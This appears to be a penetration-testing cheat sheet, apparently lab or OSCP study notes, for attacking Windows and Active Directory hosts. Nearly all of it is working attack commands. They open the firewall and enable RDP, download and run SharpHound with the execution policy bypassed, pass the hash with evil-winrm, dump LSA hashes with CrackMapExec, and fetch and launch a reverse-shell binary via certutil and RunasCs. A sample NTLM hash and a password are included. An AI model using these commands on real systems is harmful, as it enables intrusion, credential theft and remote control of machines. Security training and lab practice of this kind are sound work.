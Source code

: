 Windows: 

### open firewall
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Bloodhound 

```
.\Sharphoun.exe -c all,group 

PS C:\Users\marcus> iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://<ip>:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass

PS C:\Users\marcus> . .\SharpHound.ps1

PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
```

EVIL-WinRM:

once you login with evil-winrm 

```bash
evil-winrm -i 192.168.173.165 -u 'svc_apache' -H 4FC1682833B24CF2225248D67DF7E618 -e "<kali-path>"

$Evil-WinRM PS C:\> Invoke-Binary

$Evil-WinRM PS C:\> Invoke-Binary <kali-Path> run <paramter> 
```

This will help to connect **`metasploit`** this is userfull

https://github.com/tedchen0001/OSCP-Notes/blob/master/AD.md

### Crackmapexec 

# Crackmapexec
```
crackmapexec smb <target> -u '' -p ''
crackmapexec smb <target> -u '' -p '' --users
crackmapexec smb 192.168.1.0/24 
crackmapexec smb target.txt
crackmapexec smb target.txt -u <usernmae> -p <password>

#extract password policy 
crackmapexec smb target.txt -u <usernmae> -p <password> --pass-pol

#enumarte shares
crackmapexec smb target.txt -u <usernmae> -p <password> --shares

#check for loggedon users 
crackmapexec smb target.txt -u <usernmae> -p <password> --loggedon-users

#extract the NTLM hashes 
crackmapexec smb target.txt -u <usernmae> -p <password>  --lsa

#using hash (. dot means local) 
crackmapexec smb target.txt -u Administrator -H <hash> -d .
```
## Runascs 
If creds are found and already logged into the machine then use this command to login as that user. 

```bash
PS C:\tools> certutil.exe -urlcache -split -f "http://192.168.45.184/rshell.exe" rshell.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
PS C:\tools> .\RunasCs.exe svc_mssql trustno1 "cmd /c c:\tools\rshell.exe"
````

### WPSCAN 

```
wpscan --update --url http://192.168.169.167/ --enumerate ap --plugins-detection aggressive
```

### LFI

check for cron jobs as well 

```
/etc/cron.daily/<file> 
```

### RDP 

```
 xfreerdp /cert-ignore /compression /auto-reconnect  /u:michelle /v:172.16.186.21  /w:1600 /h:1000 /drive:test,/home/offsec/Documents/pen-200
```
